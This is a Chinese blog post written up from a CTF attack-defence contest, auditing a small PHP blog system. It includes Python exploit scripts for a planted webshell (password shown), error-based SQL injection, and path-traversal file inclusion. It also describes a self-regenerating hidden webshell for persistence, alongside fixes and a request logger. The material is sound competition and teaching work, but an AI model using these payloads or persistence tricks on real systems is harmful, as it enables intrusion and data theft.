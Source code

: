 ```yaml
---
layout: post
title: CTF线下赛tinyblog代码审计
category: security
tags: [代码审计]
keywords: 代码审计,AWD
description: CTF线下赛tinyblog代码审计
---  
```


## CTF线下赛tinyblog代码审计  
      
本篇原创文章首发安全客：https://www.anquanke.com/post/id/100991  
前段时间参加了某次CTF线下赛，大多数比赛都是采用主流CMS系统，比如wordpress、pgpcms、dedecms等等，如果对主流CMS漏洞比较熟悉的话可以迅速定位漏洞，发起攻击。而这次比赛采用了小众自写CMS的方式，注重现场快速代码审计。本文将介绍CTF线下赛AWD模式的一些常见套路，以及对tinyblog的代码审计思路。  
  

**一、预留后门**  
比赛开始，一般比赛方为了比赛的观赏性，一般都会预留后门，这样场上可以迅速打起来，展示画面比较好看，不然过了好几轮都没动静会比较尴尬。迅速找后门的套路一般是将比赛源代码首先备份下来，备份很关键，后面可能在修复漏洞或者被其他队伍攻击的时候服务会挂掉，没有备份很难恢复过来。利用webshell检测工具D盾、河马等对备份进行扫描，一般都可以发现预留后门：   
![ctf1](/assets/themes/images/tinyblog/1.PNG)  
查看一下预留后门内容：  
![ctf2](/assets/themes/images/tinyblog/2.PNG)  
虽然做了变形，但还是可以明显看出来是一句话木马，密码：abcde10db05bd4f6a24c94d7edde441d18545，尝试用菜刀去连：   
![ctf3](/assets/themes/images/tinyblog/3.PNG)  
在根目录下就可以得到flag内容。所以发现后门后需要迅速将自己的后门删掉，同时利用预留后门迅速发起第一波攻击，用菜刀手工连接显然是来不及的，因此需要自动化的攻击脚本：  

	1.	def backdoor(host):  
	2.	    r = requests.post(url="http://%s/Upload/index.php"%host,data={"abcde10db05bd4f6a24c94d7edde441d18545":"print('>>>'.file_get_contents('/flag').'<<<');"})  
	3.	    flags = re.findall(r'>>>(.+?)<<<',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!" 


  
**二、后台SQL注入**  
接下来，对各种用户交互的地方进行渗透测试，发现在用户登录处存在SQL注入漏洞，在登录名出加’进行测试：    

![ctf5](/assets/themes/images/tinyblog/5.PNG)  
发现报错：  
![ctf6](/assets/themes/images/tinyblog/6.PNG)  
估计存在SQL注入的可能性比较大，审计一下源代码，在Model/Admin.php第16行发现SQL拼接，并且没有任何防护措施：  
![ctf7](/assets/themes/images/tinyblog/7.PNG)   
因此这里可以直接用SQLmap跑：  
![ctf8](/assets/themes/images/tinyblog/8.PNG)  
然后利用--sql-shell选项，执行 select load_file(‘/flag’)即可获得flag：  
![ctf9](/assets/themes/images/tinyblog/9.PNG)   
这里注意一下sqlmap的缓存机制，因为flag每一轮都会变化，如果新一轮继续直接跑的话获得的flag仍然是上一轮的，因此每轮还需要增加--flush-session参数。  
当然也可以直接现场编写payload：  
  
	1.	def sqli(host):  
	2.	    r = requests.post(url="http://%s/?p=admin&a=login"%host,data={"email":"'||(SELECT updatexml(1,concat(0x7e,(select load_file('/flag')),0x7e),1))||'","password":"pwd123"})  
	3.	    flags = re.findall(r'~(.+?)~',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!"  

修复的话，需要将Admin.php中出问题的代码用预编译的方式进行修复，即：   

	1.	//fix by tinyfisher  
	2.	$oStmt = $this->oDb->prepare("SELECT email, password FROM Admins WHERE email = ? LIMIT 1");  
	3.	$oStmt->execute($sEmail); 


**三、文件包含**  

这个漏洞利用黑盒测试是很难测出来，必须通过代码审计才能发现，这里我主要用的工具是seay的源代码审计工具，首先将备份文件自动审计一下：  
![ctf12](/assets/themes/images/tinyblog/10.PNG)   
这里发现漏洞并不多，可以一个一个跟进去看一下，问题出现在Engine/Router.php的第21行，直接include $sTemplatePath，而：
$sTemplatePath = ROOT_PATH . 'Template/' . $aParams['template'];
所以可以通过控制$aParams['template']来达到任意文件读取。  
![ctf13](/assets/themes/images/tinyblog/11.PNG)  
我们来全局查找一下这个参数：  
![ctf14](/assets/themes/images/tinyblog/12.PNG)    
发现在index.php的33行找到该参数    
![ctf15](/assets/themes/images/tinyblog/13.PNG)   
根据'template' => (!empty($_GET['t']) ? $_GET['t'] : 'pc')，get 参数中如果t为空，则t默认值为pc，因此我们可以控制t，进而控制$aParams['template']，来达到文件包含的效果，payload：/?t=../../../../../../../flag  
![ctf16](/assets/themes/images/tinyblog/14.PNG)   
自动攻击脚本：  

	1.	def include(host):  
	2.	    r = requests.get(url="http://%s/?t=../../../../../../flag"%host)  
	3.	    flags = re.findall(r'^(.+?)<',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!"   

修复的话，过滤掉“.”和“/”来快速达到修复效果：
$sTemplatePath = str_replace(array(".","\/"), "", $sTemplatePath);  

**四、权限维持**  

对于上面的漏洞，如果其他队伍修复了就没有办法再次利用，因此需要进行权限维持，不然后期就再也得不到分了。常见的权限维持手段是“不死马”，也就是上传一个php文件不断生成webshell：  
![ctf18](/assets/themes/images/tinyblog/15.PNG)   
访问这个php文件之后，会在目录下生成一个.config.php的一句话木马，之所以叫.config.php一方面是隐藏文件，另一方面config这个名字容易掩护自己。里面的内容之所以做了变形处理，也是为了防止其他选手“借刀杀人”，利用自己的shell去攻击其他队伍。  

php中ignore_user_abort（） 可以实现当客户端关闭后仍然可以执行PHP代码，可保持PHP进程一直在执行，可实现所谓的计划任务功能与持续进程，只需要开启执行脚本，除非 apache等服务器重启或有脚本有输出，该PHP脚本将一直处于执行的状态，因此就可以一直生成一句话木马，用来维持权限。  
  



**五、借刀杀人**  

比赛当中如果一直被高手打，而又找不到漏洞所在，有没有其他手段可以缩小差距？我们可以监控流量和日志来找到攻击payload，然后利用这个payload攻击其他队伍。比如发现自己被种上了不死马，没有办法杀掉怎么办？那就继续将这个不死马发扬光大，一般攻击者上传的文件路径和内容都是一致的，你被种了不死马意味着在其他队伍的相同位置下也存在不死马，所以直接去利用他得分吧。  

流量监控这块，可以在靶机上抓一下流量：
tcpdump –s 0 –w flow.pcap port xxxx
然后在自己的机器上去分析flow.pcap这个文件，一般就可以看到其他队伍的攻击payload，web和pwn都可以使用这个方法。  

![ctf19](/assets/themes/images/tinyblog/16.PNG)   

日志监控这块主要是为了网站访问记录，便于后续的问题排查，就是把各种字段的数据记录下来，包括请求的文件、时间、IP、访问的文件、POST的内容等等。  

	1.	date_default_timezone_set('Asia/Shanghai');  
	2.	$ip        = $_SERVER["REMOTE_ADDR"];   //访问IP  
	3.	$filename  = $_SERVER['PHP_SELF'];  //访问的文件  
	4.	$parameter = $_SERVER["QUERY_STRING"];  //查询的字符串  
	5.	$method    = $_SERVER['REQUEST_METHOD']; //请求方法  
	6.	...  
	7.	$time      =  date('Y-m-d H:i:s',time()); //请求时间  
	8.	$post      = file_get_contents("php://input",'r'); //接收POST数据  
	9.	$others    = '**********************************************************************';  
	10.	$logadd    = '访问时间：'.$time.'访问IP:'.$ip.'请求方法：'.$method.' '.'访问链接：'.$filename.'?'.$parameter."\r\n";...  
	11.	//记录写入  
	12.	$fh = fopen("log.txt", "a");  
	13.	fwrite($fh, $logadd);  
	14.	fwrite($fh,print_r($_COOKIE, true)."\r\n");  
	15.	fwrite($fh,$others."\r\n");  
	16.	fclose($fh); 


  


附：  
比赛源代码下载  
链接：https://pan.baidu.com/s/1bqZbLi3 密码：fagg  

